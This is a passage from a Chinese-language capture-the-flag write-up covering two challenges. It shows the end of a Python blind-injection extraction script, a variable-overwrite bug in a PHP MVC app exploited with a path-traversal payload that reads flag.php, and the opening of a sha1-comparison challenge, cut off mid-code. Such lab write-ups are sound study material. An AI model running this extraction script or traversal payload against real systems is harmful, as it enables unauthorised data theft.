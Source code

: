 ```python
        elif (binary(iterator, cu, ">")):
            l = cu + 1
        elif (cu == 0):
            return None
        else:
            return chr(cu)

def main():
    print("(+) 程序开始")
    finalRes = ""
    iterator = 1
    while (True):
        extracted_char = test(iterator)
        if (extracted_char == None):
            break
        finalRes += extracted_char
        iterator += 1
        print("(+) 当前结果:{}".format(finalRes), end="\r\n")
    print("(+) 运行完成,结果为:", finalRes)

if __name__ == '__main__':
    main()
```

跑出来 **glzjin_wants_a_girl_friend.zip**，下载发现mvc框架

fun.php中r参数调用指定控制器与方法

![image-20220217234210610](https://img-blog.csdnimg.cn/img_convert/ce78f664527b4b9c0edac562df469e45.png)

UserController.php中，loadView去加载视图文件，此方法继承于BaseController

![image-20220217234336959](https://img-blog.csdnimg.cn/img_convert/6670308c26ce211966f3560ff1997084.png)

存在变量覆盖

![image-20220217234429444](https://img-blog.csdnimg.cn/img_convert/5473ec244c360e64ee07078876b61e25.png)

在userIndex.php中利用imgToBase64，输出flag.php的b64编码

![image-20220217234718351](https://img-blog.csdnimg.cn/img_convert/0edec386d9f24f5efca2d6e948813f18.png)

payload：**?r=User/Index&img_file=/../flag.php**

# [极客大挑战 2020]Roamphp1-Welcome

首页405

![image-20220217235811960](https://img-blog.csdnimg.cn/img_convert/043fb87c2f560ac870ea71dc72bf069a.png)

更换请求方式为post

```php
<?php
error_reporting(0);
if ($_SERVER['REQUEST_METHOD'] !== 'POST') {
header("HTTP/1.1 405 Method Not Allowed");
exit();
} else {
    
    if (!isset($_POST['roam1']) || !isset($_POST['roam2'])){
        show_source(__FILE__);
    }
    else if ($_POST['roam1'] !== $_POST['roam2'] && sha1($_POST['roam1']) === sha1($_POST['roam2'])){
```